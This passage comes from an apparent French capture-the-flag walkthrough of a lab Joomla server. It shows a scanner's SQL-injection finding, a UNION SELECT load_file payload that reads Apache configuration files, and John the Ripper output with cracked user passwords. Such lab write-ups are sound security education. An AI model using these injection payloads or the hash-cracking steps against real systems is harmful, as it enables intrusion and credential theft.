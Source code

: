 Le script *Metasploit* crashe à ce moment, mais au moins il a détecté quelque chose. Au passage *Wapiti* trouve aussi la vulnérabilité, mais via une autre variable :

```
Injection MySQL dans http://192.168.1.91:666/index.php via une injection dans le paramètre letter
  Evil url: http://192.168.1.91:666/index.php?option=com_abc&view=abc&letter=%BF%27%22%28&Itemid=3
```

Sur *exploit-db* on trouve [un exploit qui permet de récolter les hashs des utilisateurs Joomla](http://www.exploit-db.com/exploits/12429/) et [sur la mailing-list de JtR](http://comments.gmane.org/gmane.comp.security.openwall.john.user/4664), la manipulation pour casser ces hashs.  

On obtient rapidement un premier hash et plus tard un second, mais le dernier semble inaccessible :  

```
Loaded 3 password hashes with 3 different salts (dynamic_1: md5($p.$s) (joomla) [128/128 AVX intrinsics 10x4x3])
matrix           (JSmith)
victim           (BTallor)
```

Cela dis, même avec ces comptes, on ne trouve pas grand-chose d'intéressant dans Joomla qui puisse nous aider à élever nos privilèges ou obtenir un shell.  

On customise un peu l'injection SQL indiquée dans l'exploit en changeant le paramètre de la variable `sectionid`. De cette façon, on peut lire le contenu de fichiers sur le système :  

```
-null+union+select+1,load_file(%27/etc/apache2/apache2.conf%27)+from+jos_users--
```

La config est basée sur le dossier `sites-enabled` comme sous *openSUSE*. On tente le fichier `default` (`sites-available/default`) :  

```apache
<VirtualHost *:80>
	ServerAdmin webmaster@localhost

	DocumentRoot /var/www/welcome
	<Directory />
		Options FollowSymLinks
		AllowOverride None
	</Directory>
	<Directory /var/www/>
		Options Indexes FollowSymLinks MultiViews
		AllowOverride None
		Order allow,deny
		allow from all
	</Directory>

        (...snip...)
</VirtualHost>

<VirtualHost *:666>
	ServerAdmin webmaster@localhost

	DocumentRoot /var/www
	<Directory />
		Options FollowSymLinks
		AllowOverride None
	</Directory>
	<Directory /var/www/>
		Options Indexes FollowSymLinks MultiViews
		AllowOverride None
		Order allow,deny
		allow from all
	</Directory>

        (...snip...)
```